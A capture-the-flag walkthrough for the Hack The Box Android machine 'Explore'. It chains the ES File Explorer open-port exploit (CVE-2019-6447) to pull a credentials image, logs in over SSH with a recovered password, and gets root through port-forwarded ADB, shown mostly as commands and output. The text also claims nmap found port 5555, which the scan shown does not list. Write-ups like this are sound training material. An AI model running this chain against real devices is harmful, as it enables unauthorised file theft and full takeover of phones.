


---
search:
  exclude: true
---
# Explore Writeup

## Introduction :

Explore is an easy Android box released back in June 2021

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → nmap -sCV -p- explore.htb
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 12:49 UTC
    Nmap scan report for explore.htb (10.129.17.72)
    Host is up (0.71s latency).
    
    PORT      STATE  SERVICE VERSION
    2222/tcp  open   ssh     (protocol 2.0)
    | fingerprint-strings:
    |   NULL:
    |_    SSH-2.0-SSH Server - Banana Studio
    | ssh-hostkey:
    |_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
    42135/tcp open   http    ES File Explorer Name Response httpd
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: ES Name Response Server
    45141/tcp closed unknown
    59777/tcp open   http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
    |_http-title: Site doesn't have a title (text/plain).
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port2222-TCP:V=7.92%I=7%D=11/20%Time=637A2270%P=x86_64-pc-linux-gnu%r(N
    SF:ULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
    Service Info: Device: phone
    

## **Part 2 : Getting User Access**

Our nmap scan picked up a http service on port 59777 so let's investigate it using gobuster: 
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → gobuster dir -u http://explore.htb:59777 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
    ===============================================================
    Gobuster v3.3
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://explore.htb:59777
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.3
    [+] Timeout:                 10s
    ===============================================================
    2022/11/20 12:42:26 Starting gobuster in directory enumeration mode
    ===============================================================
    /product              (Status: 301) [Size: 71] [--> /product/]
    /data                 (Status: 301) [Size: 65] [--> /data/]
    /d                    (Status: 301) [Size: 59] [--> /d/]
    /bin                  (Status: 301) [Size: 63] [--> /bin/]
    /storage              (Status: 301) [Size: 71] [--> /storage/]
    /system               (Status: 301) [Size: 69] [--> /system/]
    /lib                  (Status: 301) [Size: 63] [--> /lib/]
    /dev                  (Status: 301) [Size: 63] [--> /dev/]
    /cache                (Status: 301) [Size: 67] [--> /cache/]
    /etc                  (Status: 301) [Size: 63] [--> /etc/]
    /vendor               (Status: 301) [Size: 69] [--> /vendor/]
    /config               (Status: 301) [Size: 69] [--> /config/]
    /oem                  (Status: 301) [Size: 63] [--> /oem/]
    /%20                  (Status: 403) [Size: 32]
    /sys                  (Status: 301) [Size: 63] [--> /sys/]
    /init                 (Status: 403) [Size: 31]
    
    

Trying to browse to it doesnt show much either:

However when we look back at our nmap scan, it also picked up port 42135 "ES File Explorer", so we look at the available exploits for it: 
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → findsploit  es file explorer
       ___ _           _           _       _ _
      / __(_)_ __   __| |___ _ __ | | ___ (_) |_
     / _\ | | '_ \ / _` / __| '_ \| |/ _ \| | __|
    / /   | | | | | (_| \__ \ |_) | | (_) | | |_
    \/    |_|_| |_|\__,_|___/ .__/|_|\___/|_|\__|
                            |_|
    
     + -- --=[ findsploit v2.0 by @xer0dayz
     + -- --=[ https://sn1persecurity.com
    
     + -- --=[ SEARCHING:  es file explorer
    
     + -- --=[ NMAP SCRIPTS
    
    egrep: warning: egrep is obsolescent; using grep -E
    egrep: warning: egrep is obsolescent; using grep -E
    egrep: warning: egrep is obsolescent; using grep -E
    
     + -- --=[ METASPLOIT EXPLOIT S
    
    egrep: warning: egrep is obsolescent; using grep -E
    egrep: warning: egrep is obsolescent; using grep -E
    egrep: warning: egrep is obsolescent; using grep -E
       378   gather/ie_sandbox_findfiles                                    2016-08-09       normal  No     Internet Explorer Iframe Sandbox File Name Disclosure Vulnerability
       550   scanner/http/es_file_explorer_open_port                        2019-01-16       normal  No     ES File Explorer Open Port
    
     + -- --=[ EXPLOITDB EXPLOITS
    
    ------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                             |  Path
    ------------------------------------------------------------------------------------------- ---------------------------------
    **ES File Explorer 4.1.9.7.4 - Arbitrary File Read                                           | android/remote/50070.py**
    iOS iFileExplorer Free - Directory Traversal                                               | ios/remote/16278.py
    MetaProducts Offline Explorer 1.x - FileSystem Disclosure                                  | windows/remote/20488.txt
    Microsoft Internet Explorer - NCTAudioFile2.AudioFile ActiveX Remote Stack Overflow (2)    | windows/remote/3808.html
    Microsoft Internet Explorer - SLayoutRun Use-After-Free (MS13-009) (Metasploit) (1)        | windows/remote/24495.rb
    Microsoft Internet Explorer - SLayoutRun Use-After-Free (MS13-009) (Metasploit) (2)        | windows/remote/24538.rb
    Microsoft Internet Explorer - textNode Use-After-Free (MS13-037) (Metasploit)              | windows/remote/25999.rb
    Microsoft Internet Explorer / MSN - ICC Profiles Crash (PoC)                               | windows/dos/1110.txt
    Microsoft Internet Explorer 4.x/5 / Outlook 2000 0/98 0/Express 4.x - ActiveX '.CAB' File  | windows/remote/19603.txt
    Microsoft Internet Explorer 4/5 - DHTML Edit ActiveX Control File Stealing / Cross Frame A | windows/remote/19094.txt
    Microsoft Internet Explorer 5 - ActiveX Object For Constructing Type Libraries For Scriptl | windows/remote/19468.txt
    Microsoft Internet Explorer 5 / Firefox 0.8 / OmniWeb 4.x - URI Protocol Handler Arbitrary | windows/remote/24116.txt
    Microsoft Internet Explorer 5/6 - 'file://' Request Zone Bypass                            | windows/remote/22575.txt
    Microsoft Internet Explorer 6 - '%USERPROFILE%' File Execution                             | windows/remote/22734.html
    Microsoft Internet Explorer 6 - Local File Access                                          | windows/remote/29619.html
    Microsoft Internet Explorer 7 - Arbitrary File Rewrite (MS07-027)                          | windows/remote/3892.html
    My File Explorer 1.3.1 iOS - Multiple Web Vulnerabilities                                  | ios/webapps/28975.txt
    WebFileExplorer 3.6 - 'user' / 'pass' SQL Injection                                        | php/webapps/35851.txt
    ------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    
    https://www.exploit-db.com/search?q=es+file+explorer
    https://www.google.ca/search?q=es%20file%20explorer+exploit
    https://www.google.ca/search?q=es%20file%20explorer+exploit+site:www.securityfocus.com
    https://www.google.ca/search?q=es%20file%20explorer+site:0day.today
    https://www.google.ca/search?q=es%20file%20explorer+site:www.security-database.com
    https://www.google.ca/search?q=es%20file%20explorer+site:packetstormsecurity.com
    https://exploits.shodan.io/?q=es+file+explorer
    https://vulners.com/search?query=es+file+explorer
    
     + -- --=[ Press any key to search online or Ctrl+C to exit...
    
    
    

In here we find a CVE to read arbitrary files on ES File Explorer, so let's try it out:
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → cp $(locate 50070.py) .
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → vim 50070.py
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → python 50070.py help explore.htb
    [-] WRONG COMMAND!
    Available commands :
      listFiles         : List all Files.
      listPics          : List all Pictures.
      listVideos        : List all videos.
      listAudios        : List all audios.
      listApps          : List Applications installed.
      listAppsSystem    : List System apps.
      listAppsPhone     : List Communication related apps.
      listAppsSdcard    : List apps on the SDCard.
      listAppsAll       : List all Application.
      getFile           : Download a file.
      getDeviceInfo     : Get device info.
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → python 50070.py listPics explore.htb
    
    ==================================================================
    |    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
    |                Coded By : Nehal a.k.a PwnerSec                 |
    ==================================================================
    
    name : concept.jpg
    time : 4/21/21 02:38:08 AM
    location : /storage/emulated/0/DCIM/concept.jpg
    size : 135.33 KB (138,573 Bytes)
    
    name : anc.png
    time : 4/21/21 02:37:50 AM
    location : /storage/emulated/0/DCIM/anc.png
    size : 6.24 KB (6,392 Bytes)
    
    name : creds.jpg
    time : 4/21/21 02:38:18 AM
    location : /storage/emulated/0/DCIM/creds.jpg
    size : 1.14 MB (1,200,401 Bytes)
    
    name : 224_anc.png
    time : 4/21/21 02:37:21 AM
    location : /storage/emulated/0/DCIM/224_anc.png
    size : 124.88 KB (127,876 Bytes)
    
    

Here the creds.jpg file looks interesting so let's download it:
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → wget http://explore.htb:59777/storage/emulated/0/DCIM/creds.jpg
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → file creds.jpg
    creds.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, Exif Standard: [\012- TIFF image data, big-endian, direntries=12, manufacturer=Apple, model=iPhone XR, orientation=upper-right, xresolution=174, yresolution=182, resolutionunit=2, software=14.4, datetime=2021:03:06 02:13:37, hostcomputer=iPhone XR, GPS-Data], comment: "Optimized by JPEGmini 3.18.2.210033067-TBTBLN 0x905c306b", baseline, precision 8, 4032x3024, components 3
    
    

On it we find credentials:

So from here we can login as the kristi user with her password "Kr1sT!5h@Rp3xPl0r3!":
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh -p 2222 kristi@explore.htb
    Unable to negotiate with 10.129.17.72 port 2222: no matching host key type found. Their offer: ssh-rsa
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → vim ~/.ssh/config
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → cat ~/.ssh/config| head -n6
    Host explore
        HostName explore.htb
        User kristi
        PubkeyAcceptedAlgorithms +ssh-rsa
            HostkeyAlgorithms +ssh-rsa
            Port 2222
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → sshpub explore
    The authenticity of host '[explore.htb]:2222 ([10.129.17.72]:2222)' can't be established.
    RSA key fingerprint is SHA256:3mNL574rJyHCOGm1e7Upx4NHXMg/YnJJzq+jXhdQQxI.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '[explore.htb]:2222' (RSA) to the list of known hosts.
    Password authentication
    (kristi@explore.htb) Password:
    :/ $ id
    uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
    
    

Once logged in, we find the user flag in the /sdcard directory:
    
    
    :/ $ ls
    acct                   init.superuser.rc       sbin
    bin                    init.usb.configfs.rc    sdcard
    bugreports             init.usb.rc             sepolicy
    cache                  init.zygote32.rc        storage
    charger                init.zygote64_32.rc     sys
    config                 lib                     system
    d                      mnt                     ueventd.android_x86_64.rc
    data                   odm                     ueventd.rc
    default.prop           oem                     vendor
    dev                    plat_file_contexts      vendor_file_contexts
    etc                    plat_hwservice_contexts vendor_hwservice_contexts
    fstab.android_x86_64   plat_property_contexts  vendor_property_contexts
    init                   plat_seapp_contexts     vendor_seapp_contexts
    init.android_x86_64.rc plat_service_contexts   vendor_service_contexts
    init.environ.rc        proc                    vndservice_contexts
    init.rc                product
    :/ $ cd sdcard/
    :/sdcard $ ls
    Alarms  DCIM     Movies Notifications Podcasts  backups   user.txt
    Android Download Music  Pictures      Ringtones dianxinos
    :/sdcard $ cat user.txt
    f3XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we got the user flag!

## **Part 3 : Getting Root Access**

Now in order to privesc we look back at our nmap scan which picked up port 5555, and usually this port is used for the Android Debug Bridge, so let's try to connect to it: 
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → adb connect explore.htb:5555
    * daemon not running; starting now at tcp:5037
    * daemon started successfully
    ^C
    
    

Doesnt work, because usually adb is used when you want to debug an android phone locally, so let's port forward port 5555:
    
    
    [term1]
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → sshpub -p 2222 -L 5555:localhost:5555 explore
    Password authentication
    (kristi@explore.htb) Password:
    :/ $
    
    [term2]
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → adb connect 127.0.0.1:5555
    connected to 127.0.0.1:5555
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → adb root
    restarting adbd as root
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Explore]
    → adb shell
    x86_64:/ # id
    uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
    x86_64:/ # cat /data/root.txt
    f0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

